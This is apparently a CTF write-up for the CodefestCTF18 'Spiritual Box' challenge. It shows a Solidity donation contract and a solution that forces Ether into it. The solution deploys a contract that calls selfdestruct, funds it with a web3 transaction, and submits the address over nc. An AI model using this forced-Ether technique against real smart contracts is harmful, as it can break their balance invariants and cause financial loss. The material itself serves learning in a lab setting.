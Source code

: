 # Spiritual Box

## Problem Statement
>Donate exactly "69 Wei" in this "Spiritual Box", and Venus would shine upon you.  
["Spiritual Box" aka contract page](http://34.216.132.109:8082/)  
Finally, submit your contract address at nc 34.216.132.109 9091 to get the flag.  
>**Output Format**  
>CodefestCTF{flag}  

**Contract Code**(The Spiritual/Donation Box) of problem statement.
```
1. pragma solidity ^0.4.6;
2.
3. contract Donationbox {
4.
5.     uint private prev;
6.     uint private temp;
7.
8.     constructor() public {
9.        prev = now;
10.    }
11.
12.    function donate() public payable{
13.       temp = now;
14.       require(temp - prev > 500 && msg.value <= 5 && msg.value > 0);
15.       prev = temp;
16.    }
17.
18.    function () public payable{
19.      revert();
20.    }
21. }
```
## Solution  
From given contract code, we can only use donate function every 500 seconds (now in solidity is alias for block.timestamp) and the donation amount should be <= 5, which would have take a lot of time and effort if the total donation amount is large. Moreover donate is the only fucntion that can accept Ether since the **fallback** function [line #18] always reverts(rejects) payments.  
There is a concept in solidity called **selfdestruct(also suicide)** [docs-link](https://solidity.readthedocs.io/en/v0.4.21/units-and-global-variables.html#contract-related). So when a contract commits suicide(destroys itself, freeing up the space on blockchain), it forces it's balance to the address specified in function **selfdestruct(address)**, none of the function of the contract, in which the Ether is forced into, is called. Hence, even the fallback payable function is not able to reject Ether.  

**To solve this challenge**
* Create a new instance from the button privided in the challenge page.  
* Open a new tab and enter [https://remix.ethereum.org](https://remix.ethereum.org), an online Solidity IDE.
* Write a new contract in the IDE which will commit suicide, and deploy it on the same network as that of Spiritual Box.  

```
pragma solidity ^0.4.6;

contract KillMe {

  function selfDestruct() public  {
    selfdestruct(0x9561C133DD8580860B6b7E504bC5Aa500f0f06a7);
  }

  function() payable public {
  }

}
```
Where "0x9561C133DD8580860B6b7E504bC5Aa500f0f06a7" is the address of the deployed Spiritual/Donation Box Contract.
* Send some Ether into **KillMe** contract from any Ethereum Wallet Account via web3 injected by Metamask, in the browser console.  

```
web3.eth.sendTransaction({from:web3.eth.defaultAccount ,to:'0x5b1869d9a4c187f2eaa108f3062412ecf0526b24', value:69}, (err,res)=>{console.log(err,res);})
```
Where "0x5b1869d9a4c187f2eaa108f3062412ecf0526b24" is the address of **KillMe** contract.  
* After having sent 69 Wei to KillMe contract, call its **selfDestruct** function to commit suicide and finally force its balance to the Spiritual Box address.  

![KillMe](https://github.com/ketankr9/CodefestCTF18/blob/master/writeups/static/killmeDeploy.png)  
* Now submit address "0x9561C133DD8580860B6b7E504bC5Aa500f0f06a7" at ```nc 34.216.132.109 9091``` to get the flag.
